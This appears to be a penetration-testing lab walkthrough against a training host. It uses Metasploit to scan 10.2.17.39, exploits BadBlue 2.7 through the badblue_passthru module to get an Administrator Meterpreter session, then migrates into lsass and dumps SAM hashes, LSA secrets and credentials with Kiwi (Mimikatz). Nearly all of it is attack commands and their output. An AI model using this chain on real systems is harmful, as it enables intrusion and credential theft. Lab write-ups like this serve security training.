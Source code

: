 ```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.17.39
setg RHOST 10.2.17.39
workspace -a Mimikatz
db_nmap -sV 10.2.17.39
```

```bash
80/tcp   open  http          BadBlue httpd 2.7
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

### Exploitation

```bash
search badblue 2.7
use exploit/windows/http/badblue_passthru
set TARGET BadBlue\ EE\ 2.7\ Universal
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: ATTACKDEFENSE\Administrator
```

### Hash Dumping - Kiwi

```bash
pgrep lsass
migrate 776

# Meterpreter: x64/windows
```

```bash
load kiwi
```

```bash
creds_all
lsa_dump_sam
lsa_dump_secrets
```
